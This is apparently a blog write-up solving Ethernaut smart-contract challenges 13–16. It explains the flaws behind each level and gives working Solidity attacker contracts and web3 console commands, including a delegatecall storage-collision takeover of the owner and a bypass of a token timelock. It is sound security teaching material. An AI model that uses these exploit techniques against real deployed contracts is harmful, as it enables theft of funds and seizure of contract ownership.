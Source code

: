 ```yaml
---
layout: post
title:  Ethernaut challenges writeup Part III (Challenges 13 to 16).
excerpt_separator: <!--more-->
category: DeFi
---
```


Hi There! Let's continue reviewing my solutions for [Ethernaut](https://ethernaut.openzeppelin.com/). In today's post, we'll review challenges 13 to 16.

<!--more-->

# Challenges write up

## Gatekeeper One

The main idea behind this challenge is to be able to pass three checks performed in the code that act as "gates". This level was a real headache as I knew the idea to solve it but was missing the exact value to pass the second check.

The first gate it's pretty simple and the idea to pass it was explained in the [Telephone](https://nahueldsanchez.com.ar/Solving-Ethernaut-Challenges-01-07/) challenge. One way to pass this first check is to create a contract that calls the contract implemented in the challenge and call this first contract. This way `tx.origin` (User Address) != `msg.sender` (contract #1 address). The second gate was the real headache as when evaluated the remaining Gas value in the execution modulo 8191 should be 0. To properly calculate this I had to debug quite a few times the contract until I found the exact Gas value spent by the execution until that point (254 in my case). After calculating this I used the following horrible Python code to brute force a Gas value that will meet the condition required: 

```
// Python code to calculate Gas value to meet Gate Two condition:

for x in range(30000,50000):
    if((x-254) % 8191) == 0:
        print(x)
```

The last gate is easier and it requires playing with bitmasks and how Solidity truncates values when casting variables. I developed the contract below to pass this level.

### Further Reading

- Units and Globally Available Variables - https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html
- Convert address to bytes8 - https://ethereum.stackexchange.com/questions/83905/convert-address-to-bytes8

### Solution Code

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGatekeeperOne {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract GatekeeperTwoAttacker {

    //using SafeMath for uint256;
    address victim;

    constructor(address _GatekeeperContract) {
        victim = _GatekeeperContract;
    }

    function attack() public {
        bytes8 _gateKey = bytes8(uint64(uint160(tx.origin))) & 0xFFFFFFFF0000FFFF;
        bytes memory payload = abi.encodeWithSignature("enter(bytes8)", _gateKey);
        (bool success, bytes memory returnData) = address(victim).call{gas: 49400}(payload);
        require(success);
    }

}

```

## Gatekeeper Two

1. The first gate is the same idea as in the previous challenge.
2. Second gate was interesting, the contract had to return a size of 0 when `extcodesize(addr)` was used. For that, we had the hint to read `section 7` of the Ethereum yellow Paper. In the part that I copied below, we find a very interesting behavior. If we use a SELFDESTRUCT instruction in the contract's constructor we'll be able to meet the condition required.

```
7.1. Subtleties.
Note that while the initialization code is executing, the newly created address exists but with no intrinsic body code. Thus any message call received by it during this time causes no code to be executed. If the initialization execution ends with a SELFDESTRUCT instruction, the matter is moot since the account will be deleted before the transaction is completed. For a normal STOP code, or if the code returned is otherwise empty, then the state is left with a zombie account, and any remaining balance will be locked into the account forever.
```
3. For the 3rd gate the key is to understand how the XOR operation works. If we simplify how the contract checks if `_gateKey` is correct we can say: `X ^ _gateKey` should be equal to `uint64(0) - 1`. This value `uint64(0) - 1` it's fixed and we can calculate it. I used a dummy contract that emitted an event with the result (that I knew was 0xFFFFFFFFFFFFFFFF). Knowing this we can rewrite the expression to: `_gatekey == X ^ 0xFFFFFFFFFFFFFFFF`. The last task is to calculate X, and for that, we can use the same expression that the challenge uses, but replace msg.sender for `this(address)` as we need to pass the address of our contract (which is in fact what the challenge will see when using `msg.sender`). Then `X = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this)))))`

### Further Reading

- Solidity Assembly Reference - https://docs.soliditylang.org/en/v0.4.21/assembly.html
- Ethereum Beige Paper - https://cryptopapers.info/assets/pdf/eth_beige.pdf
- Ethereum Yellow Paper - https://ethereum.github.io/yellowpaper/paper.pdf
- ABI encode vs packedencode - https://forum.openzeppelin.com/t/abi-encode-vs-abi-encodepacked/2948/4

### Solution Code

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IGatekeeerTwo {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract GatekeeperTwoSol {

    address gatekeeperContract;

    constructor(address _gatekeeperContract) public {
        gatekeeperContract = _gatekeeperContract;
        bytes8 _gateKey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ uint64(0) - 1);
        IGatekeeerTwo(gatekeeperContract).enter(_gateKey);
        selfdestruct(payable(0x7EF2e0048f5bAeDe046f6BF797943daF4ED8CB47));
    }

}
```

## Naught Coin

This challenge was relatively easy for me, as I previously solved Damn Vulnerable DeFi Challenges and had an idea of the ERC20 standard. The idea to solve it is using the `transferFrom` method which in this case is not being modified by the `timelock`. The steps to win the challenge are:

1. First allow the spending of tokens, calling `contract.approve(player, web3.utils.toWei("1000000", "ether"))`.
2. Transfer the tokens using `contract.transferFrom(player, "<address>", web3.utils.toWei("1000000", "ether"))`.

As the challenge's solution explains, the main issue is that the developer who created this contract did not fully understand the code being used.

### Further Reading

- ERC20 Standard - https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md

## Preservation

I loved this challenge. `delegatecall` is a very powerful function but a dangerous one and can get messy very quickly. I learned about the big differences between [contracts and libraries](https://docs.soliditylang.org/en/v0.7.2/contracts.html#libraries). I also found some parallelism with being able to overwrite function pointers to call arbitrary functions and maybe because of that I quickly got the idea to solve this level.

The main idea in this challenge is to somehow we should be capable of modifying the `owner` of the instance we are given. I started to review the contract and decided to call function `setFirstTime` with a `uint` value of `0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF`. After that I decided to review the contract's storage:

```
await contract.setFirstTime(("0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF"))

await web3.eth.getStorageAt(instance,0)

'0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff'
```
And at that moment all that happened made sense. For me, it was very useful to have fresh in my mind challenge #6 - Delegation. While looking at the value stored in `slot 0`. I assumed that the following happened:

1. When calling `setFirstTime`, the code for `setTime` is executed.
2. BUT THE STATE OF the Preservation contract is used. This means that the contract's `slot 0` is used. And this overwrites the value stored in `timeZone1Library`.
3. I corroborated this by calling `setSecondTime` with a different value and checking again what was stored in Preservation contract's `slot 0`.

The next step was to think about how to leverage this behavior. I decided to store in `timeZone1Library` the address of a malicious contract with a `setTime` function. This way once the Preservation contract calls `setTime` via the `delegatecall` will end up calling the malicious contract.

This malicious contract had defined three variables to have the same layout that the victim contract and in its `setTime` function changed the `owner` variable to my address, effectively changing Preservation's contract `owner` variable.

### Further Reading

- Libraries - https://docs.soliditylang.org/en/v0.7.2/contracts.html#libraries

### Solution code

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Attacker {
    address public foo;
    address public bar;
    address public owner;

    function setTime(uint _time) public {
        owner = 0x922e34D7d34C70Df760DF873BC6F99a10dea516E;
  }
}
```

